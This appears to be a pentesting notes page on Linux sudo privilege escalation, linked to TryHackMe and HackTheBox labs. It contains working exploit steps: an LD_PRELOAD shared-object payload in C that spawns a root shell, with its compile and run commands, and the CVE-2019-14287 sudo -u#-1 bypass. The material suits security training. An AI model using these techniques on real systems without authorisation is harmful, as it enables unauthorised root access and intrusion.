 # sudo privilege escalation

*An excellent reference to exploit sudo: [SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER) (2.0k ⭐)*

[![linprivesc](../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![commonlinuxprivesc](../../../_badges/thmp/commonlinuxprivesc.svg)](https://tryhackme.com/room/commonlinuxprivesc)
[![picklerick](../../../_badges/thm-p/picklerick.svg)](https://tryhackme.com/room/picklerick)
[![linprivesc](../../../_badges/thm-p/linprivesc.svg)](https://tryhackme.com/room/linprivesc#task-12)
[![wgelctf](../../../_badges/thm-p/wgelctf.svg)](https://tryhackme.com/room/wgelctf)
[![easyctf](../../../_badges/thm-p/easyctf.svg)](https://tryhackme.com/room/easyctf)
[![colddboxeasy](../../../_badges/thm-p/colddboxeasy.svg)](https://tryhackme.com/room/colddboxeasy)
[![allinonemj](../../../_badges/thm-p/allinonemj.svg)](https://tryhackme.com/room/allinonemj)
[![chillhack](../../../_badges/thm-p/chillhack.svg)](https://tryhackme.com/room/chillhack)
![nibbles](../../../_badges/htb-p/nibbles.svg)
![getsimplecms](../../../_badges/htb-p/getsimplecms.svg)
[![devvortex](../../../_badges/htb-p/devvortex.svg)](https://app.hackthebox.com/machines/Devvortex)
[![cozyhosting](../../../_badges/htb-p/cozyhosting.svg)](https://app.hackthebox.com/machines/CozyHosting)
[![knife](../../../_badges/htb-p/knife.svg)](https://app.hackthebox.com/machines/Knife)

<div class="row row-cols-lg-2"><div>

If you have [administrative privileges](/operating-systems/linux/_knowledge/index.md#sudo), you can list them with:

```ps
$ sudo -nl # without a password
$ sudo -l # with a password
```

The first section is about settings and environment variables that may be exploited such as [LD_PRELOAD](#ldpreload).

```text!
Matching Defaults entries for [...]:
    [...] # something here
```
</div><div>

The second section is about your [sudoers](/operating-systems/linux/env/files/index.md#etcsudoers) rights. Such commands may be exploited to get root, search the command on [GTOBins #sudo](tools/gtfobins.md).

```text!
User [...] may run the following commands on [...]:
    (root) /bin/tar
    (root) NOPASSWD: /usr/bin/vim
    (ALL) NOPASSWD: /usr/bin/vim
    (xxx) NOPASSWD: /opt/script.sh
    (root) /usr/bin/ssh *
```

➡️ For instance, the user below can run `/bin/tar` as `root`. 

📚 Sometimes, instead of root, we may be able to run commands as another user, such as `/opt/script.sh` as user `xxx`. Use `sudo -u xxx`.
</div></div>

<hr class="sep-both">

## LD_PRELOAD

[![linprivesc](../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)

<div class="row row-cols-lg-2"><div>

If there is `env_keep += LD_PRELOAD` in the permissions displayed by `sudo -l`, then it means that the user can run some code before executing a command as administrator.

The code below replace the gid/uid of the user running the command with `0` <small>(root)</small>. Then, it pops a bash shell <small>(as root!)</small>.

```c
void _init() {
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
</div><div>

Compile it with

```
$ cd /tmp
$ gcc -shared -fPIC init.c -o init.so
```

Then, call the command that you could run as administrator <small>(`tar` here)</small>, while setting the variable path to your script:

```bash!
$ sudo LD_PRELOAD=/tmp/init.so tar
```

💎 Congratulations, you are `root` now!
</div></div>

<hr class="sep-both">

## Well-known Vulnerabilities

<div class="row row-cols-lg-2"><div>

#### sudo before 1.8.28 (CVE-2019-14287)

[![agentsudoctf](../../../_badges/thm-p/agentsudoctf.svg)](https://tryhackme.com/room/agentsudoctf)

If a user was allowed to run one specific command using sudo, such as `tar`, then it was possible for any other user to impersonate the authorized user, and run the command as root too.

```ps
$ sudo -u#-1 tar [...]
$ sudo -u#4294967295 tar [...]
```

💎 Congratulations, you are `root` now!
</div><div>

#### sudo before 1.9.5p2 (CVE-2021-3156)

[![metasploitframework](../../../_badges/htb/metasploitframework.svg)](https://academy.hackthebox.com/course/preview/using-the-metasploit-framework)

See metasploit module: `exploit/linux/local/sudo_baron_samedit`.
</div></div>